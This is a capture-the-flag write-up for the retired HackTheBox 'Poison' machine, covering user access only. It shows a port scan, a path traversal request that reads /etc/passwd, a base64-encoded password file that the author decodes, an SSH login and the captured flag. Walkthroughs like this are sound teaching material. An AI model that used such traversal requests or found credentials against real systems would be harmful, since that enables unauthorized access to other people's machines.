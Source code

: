 +++
author = "Dan Salmon"
date = 2018-10-18T04:33:52Z
description = ""
draft = false
tags = ["hackthebox", "ctf"]
slug = "hackthebox-poison"
title = "HackTheBox 'Poison' - Own User Guide"
type = "post"
+++

**Note:** *If you are currently trying to get access to this box, I highly recommend you try it yourself first and only use this guide if you really are stuck.*
<br />
<br />


### Intro

Now that the Poison box is retired on hackthebox, we can talk publicly about how to gain access to this machine. While this machine was active, I only took the time to gain user access, not all the way to root. There are multiple ways to get access on Poison, but I'm just showing the way I took which is one of the shortest routes to the user. 


### Machine Overview

All we know about this box initially is that it's running FreeBSD and that most users who have completed it rate it as relatively easy to exploit. 

![poison-overview](../images/poison-overview.png)


### Steps

As with all pentests, we must start with recon. Let's start by port scanning the box.

```shell
nmap -sC -sV -oA hackthebox-poison 10.10.10.84
```

and the results show:

![poison-scan](../images/poison-scan.png)

So we can see this box only has SSH and HTTP running. Let's see what's running on port 80.

![poison-home](../images/poison-home.png)


Here there's a list of file names and a textbox. If we enter any of the filenames into the text box, the page seems to read the contents of the file and output it to the screen. We're expected to input a file from the list of file names, but let's see what happens if we try to leave the current directory.

In the browser, try to navigate to

```json
http://10.10.10.84/browse.php?file=../../../../../../../../../etc/passwd
```

and we should get the output

```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

Nice! The page is vulnerable to a [Path Traversal attack](https://www.owasp.org/index.php/Path_Traversal). In the output we can see that there are 2 users that have shell access on the box: `charix` and `root`.

This is good information, but not enough to get access into the box. Let's circle back to the files listed on the home page

```
ini.php
info.php
listfiles.php
phpinfo.php
```

Entering `listfiles.php` into the box on the home page lists the files we already know about, but also an unknown file with an interesting name - `pwdbackup.txt`. 

Well let's check that one out!

```json
http://10.10.10.84/browse.php?file=pwdbackup.txt
```

```markdown
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

We can tell it's probably Base64 encoded based on the fact that it ends with an equal sign. Since the hint tells us it's encoded 13x, just run it through a Base64 decoder 13x. After all that we get:

```markdown
Charix!2#4%6&8(0
```

Sure looks like a password to me! Verify this by SSH'ing into the box with this password:

```
ssh charix@10.10.10.84
```

and of course grab the flag to claim

```
$ cat ~/user.txt
eaacdfb2d141b72a589233063604209c
```

Root escalation will be left as an excercise to the reader (because I didn't have time to do it before the box was retired).








